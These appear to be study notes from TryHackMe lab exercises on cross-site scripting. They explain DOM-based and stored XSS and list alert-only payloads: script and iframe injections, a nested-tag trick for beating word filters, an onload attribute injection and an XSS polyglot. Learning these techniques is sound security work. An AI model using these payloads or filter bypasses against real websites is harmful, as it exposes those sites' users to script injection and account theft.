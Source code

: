 ```HTML
<iframe src="javascript:alert(`xss`)"> 

<script>alert('XSS');</script>

```
	

## DOM  Based XSS 

uses the HTML environment to execute malicious javascript. 
This type of attack commonly uses the script HTML tag

look for parts of the code that access certain variables that an attacker can have control over, such as "`window.location.x` parameters

unsafe JavaScript methods such as `eval()


## Persistent (Server-side) (Stored) XSS

javascript that is run when the server loads the page containing it.

>These can occur when the server does not sanitise the user data when it is ***uploaded to a page.*** 
- Comments on a blog
- User profile information      
- Website Listings


### Bypass word filter

When a word gets removed from a string, there's a helpful trick that you can try.
**Original Payload:**
`<sscriptcript>alert('THM');</sscriptcript>`

**Text to be removed (by the filter):**
`<sscriptcript>alert('THM');</sscriptcript>`

**Final Payload (after passing the filter):**
`<script>alert('THM');</script>`

### Use tag attributes to escape filters

`onload="alert('THM');`
e.g.
 `<img src="[/images/cat.jpg](view-source:https://10-10-4-57.p.thmlabs.com/images/cat.jpg)" onload="alert('THM'); ">


### Polyglot
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e``
```


---